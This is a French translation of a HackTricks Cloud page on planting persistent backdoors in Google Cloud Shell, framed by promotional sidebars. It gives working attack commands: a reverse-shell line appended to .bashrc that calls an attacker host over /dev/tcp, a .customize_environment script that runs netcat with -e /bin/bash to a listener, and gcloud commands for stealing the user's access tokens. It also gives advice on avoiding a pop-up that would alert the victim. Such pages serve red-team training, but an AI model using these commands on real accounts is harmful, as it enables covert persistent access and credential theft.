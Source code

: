 # GCP - Persistance du Cloud Shell

<details>

<summary><strong>Apprenez le piratage AWS de zéro à héros avec</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Autres moyens de soutenir HackTricks :

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou **télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop)!
* Obtenez le [**merchandising officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**La Famille PEASS**](https://opensea.io/collection/the-peass-family), notre collection d'[**NFTs**](https://opensea.io/collection/the-peass-family) exclusifs
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez-moi** sur **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Partagez vos astuces de piratage en soumettant des PR aux dépôts** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)
*
*
*
* &#x20;github repos.

</details>

## Cloud Shell

Pour plus d'informations, consultez :

{% content-ref url="../gcp-services/gcp-cloud-shell-enum.md" %}
[gcp-cloud-shell-enum.md](../gcp-services/gcp-cloud-shell-enum.md)
{% endcontent-ref %}

### Backdoor Persistante

[**Google Cloud Shell**](https://cloud.google.com/shell/) vous offre un accès en ligne de commande à vos ressources cloud directement depuis votre navigateur sans aucun coût associé.

Vous pouvez accéder au Cloud Shell de Google depuis la **console web** ou en exécutant **`gcloud cloud-shell ssh`**.

Cette console a des capacités intéressantes pour les attaquants :

1. **Tout utilisateur Google ayant accès à Google Cloud** a accès à une instance Cloud Shell entièrement authentifiée (les comptes de service peuvent, même en étant propriétaires de l'organisation).
2. Cette instance **conservera son répertoire personnel pendant au moins 120 jours** si aucune activité n'est détectée.
3. Il n'y a **aucune capacité pour une organisation de surveiller** l'activité de cette instance.

Cela signifie essentiellement qu'un attaquant peut placer une backdoor dans le répertoire personnel de l'utilisateur et tant que l'utilisateur se connecte au GC Shell au moins tous les 120 jours, la backdoor survivra et l'attaquant obtiendra un shell à chaque fois qu'elle est exécutée, simplement en faisant :

{% code overflow="wrap" %}
```bash
echo '(nohup /usr/bin/env -i /bin/bash 2>/dev/null -norc -noprofile >& /dev/tcp/'$CCSERVER'/443 0>&1 &)' >> $HOME/.bashrc
```
```markdown
Il y a un autre fichier dans le dossier personnel appelé **`.customize_environment`** qui, s'il existe, sera **exécuté à chaque fois** que l'utilisateur accède au **cloud shell** (comme dans la technique précédente). Insérez simplement le backdoor précédent ou un similaire au suivant pour maintenir la persistance tant que l'utilisateur utilise "fréquemment" le cloud shell :
```
```bash
#!/bin/sh
apt-get install netcat -y
nc <LISTENER-ADDR> 443 -e /bin/bash
```
{% hint style="warning" %}
Notez que **la première fois qu'une action GCP est effectuée dans Cloud Shell nécessitant une authentification**, elle **déclenche** une fenêtre d'autorisation dans le navigateur de l'utilisateur qui doit être acceptée avant que la commande ne s'exécute. Si un pop-up inattendu apparaît, la cible pourrait devenir méfiante et compromettre la méthode de persistance.

Voici le pop-up qui apparaît en exécutant `gcloud projects list` depuis le cloud shell (en tant qu'attaquant) vu dans la session du navigateur de l'utilisateur.
{% endhint %}

<figure><img src="../../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

Cependant, si l'utilisateur a activement utilisé le cloudshell, le pop-up n'apparaîtra pas et vous pouvez **récupérer les tokens de l'utilisateur avec** :
```bash
gcloud auth print-access-token
gcloud auth application-default print-access-token
```
#### Comment la connexion SSH est établie

En gros, ces 3 appels API sont utilisés :

* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default:addPublicKey](https://content-cloudshell.googleapis.com/v1/users/me/environments/default:addPublicKey) \[POST] (vous permet d'ajouter votre clé publique que vous avez créée localement)
* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default:start](https://content-cloudshell.googleapis.com/v1/users/me/environments/default:start) \[POST] (vous permet de démarrer l'instance)
* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default](https://content-cloudshell.googleapis.com/v1/users/me/environments/default) \[GET] (vous indique l'IP de la Google Cloud Shell)

Mais vous pouvez trouver plus d'informations dans [https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key)

## Références

* [https://89berner.medium.com/persistant-gcp-backdoors-with-googles-cloud-shell-2f75c83096ec](https://89berner.medium.com/persistant-gcp-backdoors-with-googles-cloud-shell-2f75c83096ec)
* [https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key)
* [https://securityintelligence.com/posts/attacker-achieve-persistence-google-cloud-platform-cloud-shell/](https://securityintelligence.com/posts/attacker-achieve-persistence-google-cloud-platform-cloud-shell/)

<details>

<summary><strong>Apprenez le hacking AWS de zéro à héros avec</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> !</strong></summary>

Autres moyens de soutenir HackTricks :

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou **télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop) !
* Obtenez le [**merchandising officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**La Famille PEASS**](https://opensea.io/collection/the-peass-family), notre collection d'[**NFTs**](https://opensea.io/collection/the-peass-family) exclusifs
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez** moi sur **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm).
* **Partagez vos astuces de hacking en soumettant des PR aux dépôts** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)
*
*
* &#x20;github repos.

</details>
